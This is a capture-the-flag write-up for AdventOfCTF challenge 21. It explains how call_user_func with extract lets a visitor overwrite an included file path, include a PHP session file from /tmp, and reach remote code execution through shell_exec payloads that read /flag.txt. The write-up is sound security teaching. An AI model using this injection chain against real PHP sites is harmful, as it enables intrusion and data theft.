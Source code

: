 +++
author = "Maik de Kruif"
title = "Challenge 21 - AdventOfCTF"
date = 2021-02-26T11:45:53+01:00
description = "A writeup for challenge 21 of AdventOfCTF."
cover = "img/adventofctf/2020/a4afd1fffb0b662d849a6907767f0625.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "php",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2100

## Description

We are testing a new mechanism to filter out malicious content from URLs. This application is the test page for this feature. I hope it works, these hackers are very active!

The flag is in /flag.txt

Visit <https://21.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with some PHP code:

```php
<?php
error_reporting(0);

ini_set('display_errors', 0);
ini_set('open_basedir', '/var/www/html:/tmp');

# Make sure no evil things are passed in the URL
$file = 'filters.php';
$func = isset($_GET['function'])?$_GET['function']:'filters';
call_user_func($func,$_GET);
include($file);

# Save the name for later
session_start();
if ($_POST["name"]){
    $_SESSION["name"] = $_POST["name"];
}

header("Location: /index.php");
exit();
?>
```

Besides this, we can also see an input field for a name. From it's source, we can tell it send a `POST` request to `/get_flag.php` upon submitting the form.

## Analyzing the code

Let's start by going over the PHP code line by line.

```php
ini_set('display_errors', 0);
ini_set('open_basedir', '/var/www/html:/tmp');
```

The code starts by setting two PHP settings. The first one is pretty obvious; it disables the display of errors. The second one is a little more interesting. If we take a look at the [php documentation](https://www.php.net/manual/en/ini.core.php#ini.open-basedir) we find the following:

> Limit the files that can be accessed by PHP to the specified directory-tree, including the file itself.
> [...]
> When a script tries to access the filesystem, for example using include, or fopen(), the location of the file is checked. When the file is outside the specified directory-tree, PHP will refuse to access it.

This means we can, thus, only read files from the `/var/www/html` and `/tmp` directory. This is peculiar as we normally don't need to read anything from the `/tmp` folder.

```php
# Make sure no evil things are passed in the URL
$file = 'filters.php';
$func = isset($_GET['function'])?$_GET['function']:'filters';
call_user_func($func,$_GET);
include($file);
```

Moving on ot the next part, two variables are set: `$file` and `$func`. `$file` is set to a path which is later included with `include($file)`. To set the `$func` variable, the code will first check if `$_GET['function']` exists, and if so sets the variable to it, otherwise, the variable is set to the string `"filters"`.

After setting these variables, the script will execute `call_user_func` with two parameters. To see what this function does, we can have a look at the [docs](https://www.php.net/manual/en/function.call-user-func.php) again:

> Calls the callback given by the first parameter and passes the remaining parameters as arguments.

This means it will execute the function saved in `$func`, which, we can set using the `GET` parameter `function`. It also passes all `GET` parameters as arguments.

After calling `call_user_func`, it [includes](https://www.php.net/manual/en/function.include.php) the `$file` variable. This means it will take the contents of the file at the path saved in `$file` and pretend it was written here.

```php
# Save the name for later
session_start();
if ($_POST["name"]){
    $_SESSION["name"] = $_POST["name"];
}
```

This part is also interesting. The code start a session and, if the `"name"` parameter exists in a `POST` request to this page, saves it to this session.

The interesting part is that we don't see it being used anywhere.

```php
header("Location: /index.php");
exit();
```

Finally, the script will add a `Location` header with `/index.php` as the content, this is basically a redirect, and then exits the process.

### Summary

Let's put this all together.

Firstly, the code restricts the read access of our program to `/var/www/html` and `/tmp`. It then, if it exists, calls the function passed in the `GET` parameter `function`. If it isn't set, it will call the `filters` function instead. Afterwards, it includes a file at the path saved in `$file`.

After all of this, it will start a session and, if the `POST` parameter `name` is set, saves the contents of that parameter to the session.

## Finding the vulnerability

The goal is to read the `/flag.txt` file which is not saved in either `/var/www/html` nor `/tmp`. This means we cannot exploit the `include` function to read it directly.

Let's have another look at the bottom code for the session. A variable in the session is set, but where is it actually saved? As PHP doesn't "run" like a python server would, it can't save it to memory. This means the session is probably saved to a file.

If we have a look on Google, we can find that PHP sessions are saved as separate files in the OS's temporary directory. For Linux, this is `/tmp`.

Hooray! This means the `include` function can access the session files. This is quite useless though if we can't actually use the include function. So let's get to that first.

### Including files

The only way to include a file from what I can see is to either use `call_user_func` to include a file, or use `call_user_func` to somehow overwrite the `&file` variable.

The first approach won't work though as `GET` parameters always have a name, and the `include` function doesn't use those.

There is, however, a way to overwrite the `&file` variable. We can do this using PHP's `extract` function.

From the [docs](https://www.php.net/manual/en/function.extract):

> extract — Import variables into the current symbol table from an array

In English, this means it imports the variables from the passed array into our code.

This is great as the passed array is the `$_GET` array. This is an array in which all our `GET` parameters are saved. This means that if we add a parameter with the name "file", it will, hopefully, overwrite the existing variable.

Let's test this. Firstly we have to set the name variable. To do this we can just enter some text in the input field and press submit. After this, we can make a `GET` request to `/get_flag.php` to read the file.

To make this request, we first need the session token. We can find in the cookies in our browser. For me, it was `e62ac597cd97e0638d898fff45c3b878`. Afterwards, we can make a request like this to get the contents of our session file: `/get_flag.php?function=extract&file=/tmp/sess_e62ac597cd97e0638d898fff45c3b878`.

This then returns the following:

```text
name|s:15:"Your cool name!";
```

As we can see, our input is directly saved to the file. Because we are reading the file using `include`, it also executes any PHP code it finds there. Let's verify that by setting our name to `<?php phpinfo(); ?>`.

If we now open the page with our file read again, we see the PHP info.

## Exploit

Now that we have PHP injection, we can easily turn this into Remote Code Execution (RCE). We do this by using the `shell_exec` function like so:

```php
<?php echo shell_exec("ls"); ?>
```

If we send this as the name, we get the following result:

```text
name|s:31:"error_pages
favicon.ico
filters.php
get_flag.php
index.php
logo.png
style.css
";
```

The description told us the flag was located at `/flag.txt` so let's open it using the following input:

```php
<?php echo shell_exec("cat /flag.txt"); ?>
```

## Solution

We got the flag! It is `NOVI{extract_1s_ev1l_on_us3r_inpu7}`.
